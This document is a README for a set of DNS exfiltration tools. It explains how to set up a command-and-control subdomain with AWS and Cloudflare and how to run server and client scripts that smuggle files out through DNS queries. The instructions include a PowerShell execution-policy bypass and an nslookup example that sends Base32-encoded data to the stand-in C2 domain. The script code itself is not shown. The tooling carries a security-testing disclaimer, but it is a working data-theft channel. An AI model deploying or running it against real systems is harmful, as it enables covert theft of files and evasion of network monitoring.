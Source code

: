 
# DNS Exfiltration Tools

**Disclaimer:**  
These tools are intended solely for **security testing purposes**. I am not responsible for any misuse of these tools. **Use responsibly**.

---

## Table of Contents
1. [Infrastructure Setup](#infrastructure-setup)
2. [Tool Usage](#tool-usage)
    - [dns_file_receiver.py (Unix - Server)](#dns-file-receiver-unix---server)
    - [dns_file_uploader.ps1 (Windows - Client)](#dns-file-uploader-windows---client)
    - [dns_file_uploader.py (Unix - Client)](#dns-file-uploader-unix---client)
    - [ns_dns_server.py (Unix - Server)](#ns-dns-server-unix---server)
3. [Base32 Payload Instructions for ns_dns_server.py (Client)](#base32-payload-instructions-for-ns_dns_serverpy-client)

---

## Infrastructure Setup

**Prerequisites:**
- You must own a domain and have an internet-connected server.
- Example setup uses AWS and Cloudflare.

**Server Information:**
- AWS VM IP: `123.123.123.123`
- Cloudflare Domain: `fakedomain.com`

**Cloudflare DNS Configuration:**
1. Create an NS record:  
   **Name:** `c2.fakedomain.com`  
2. Create an A record for C2:  
   **Name:** `c2`  
   **IPv4 address:** `123.123.123.123`  
3. Create an A record for `example.com`:  
   **IPv4 address:** `123.123.123.123`

---

## Tool Usage

### dns_file_receiver.py (Unix - Server)

1. Edit the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Adjust the `SOCKET_TIMEOUT` to an appropriate duration in seconds. This determines how long the script will stay active, waiting for client connections.

3. Run the script:  
   ```bash
   sudo python3 dns_file_receiver.py
   ```

### dns_file_uploader.ps1 (Windows - Client)

1. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Run the script with PowerShell:  
   ```bash
   powershell -ExecutionPolicy Bypass -File .\dns_file_uploader.ps1
   ```
3. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Domain OR IP:** Either the AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)
    - **Random delay:** Set a random delay in seconds

### dns_file_uploader.py (Unix - Client)

1. Update the `DNS_SERVER` parameter to:  
   - AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)

2. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```

3. Run the script:  
   ```bash
   sudo python3 dns_file_uploader.py
   ```
4. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Random delay:** Set a random delay in seconds

### ns_dns_server.py (Unix - Server)

1. Update the `DOMAIN` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Optionally, update the `fake_ip` parameter if needed.

3. Run the script:  
   ```bash
   sudo python3 ns-dns_server.py
   ```

---

## Base32 Payload Instructions for ns_dns_server.py (Client)
**IMPORTANT NOTE:**
- **Maximum Length of a DNS Label:** Each label (subdomain) in a DNS name can be up to 63 characters.
- **Maximum Length of the Entire Domain Name:** The full domain name (including all labels and dots) can be a maximum of 253 characters.

1. Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base32('A-Z2-7%3D')) to create a Base32 payload.
   
2. Once the payload is generated, use `nslookup` to test the server:  
   ```bash
   nslookup <payload>.c2.fakedomain.com
   ```

**Example:**

- **Input:**  
   ```
   TESTING TESTING 123
   ```
- **Output:**  
   ```
   KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY=
   ```

- **Command:**  
   ```bash
   nslookup KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com
   ```
  **EXTRA NOTE:**
  - The '=' is added by the script when it tries to decrypt it.
  - The domain string 'KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com' contains 49 characters.
---

**Note:** All other tools not documented here are works in progress.
